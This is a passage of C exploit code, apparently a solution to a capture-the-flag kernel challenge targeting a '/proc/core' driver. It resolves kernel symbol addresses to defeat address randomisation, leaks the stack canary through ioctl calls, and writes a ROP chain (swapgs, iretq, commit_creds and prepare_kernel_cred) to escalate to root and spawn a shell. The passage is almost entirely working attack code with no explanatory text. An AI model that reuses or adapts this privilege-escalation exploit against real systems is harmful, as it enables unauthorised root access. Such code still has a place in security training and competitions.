 ```c
        if(strstr(buf,"commit_creds") && !commit_creds){
            char hex[0x20] = {0};
            strncpy(hex,buf,0x10);
            sscanf(hex,"%llx",&commit_creds);
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("[*]vmlinux base => %llx\n",vmlinux_base);
        }
        if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[0x20] = {0};
            strncpy(hex,buf,0x10);
            sscanf(hex,"%llx",&prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            printf("[*]vmlinux base => %llx\n",vmlinux_base);
        }
    }
}

size_t raw_vmlinux_base = 0xffffffff81000000;

int main()
{
    save_status();
    FindVmlinuxBase();
    printf("[*]prepare_kernel_cred addr:%p\n",prepare_kernel_cred);
    printf("[*]commit_creds addr:%p\n",commit_creds);
    //leak sth
    int core_fd = open("/proc/core",2);
    char* user_buf = (char*)malloc(0x50*sizeof(char));
    memset(user_buf,0,sizeof(char)*0x50);
    //set off=0x40
    ioctl(core_fd,0x6677889C,0x40);
    //read to user_buf
    ioctl(core_fd,0x6677889B,user_buf);
    size_t canary = ((size_t*)user_buf)[0];
    printf("[*]leaked canary:%p",canary);
    //rops
    size_t rop[0x1000];
    int i = 0;
    size_t offset = vmlinux_base - raw_vmlinux_base;
    for(i=0;i<10;i++)
        rop[i] = canary;
    rop[i++] = BeRoot;
    rop[i++] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
    rop[i++] = 0;

    rop[i++] = 0xffffffff81050ac2 + offset; // iretq; ret; 

    rop[i++] = (size_t)GetRootShell;         // rip 

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(core_fd, rop, 0x800);
    ioctl(core_fd, 0x6677889a,0xffffffffffff0000 | (0x100));

    return 0;
}


```

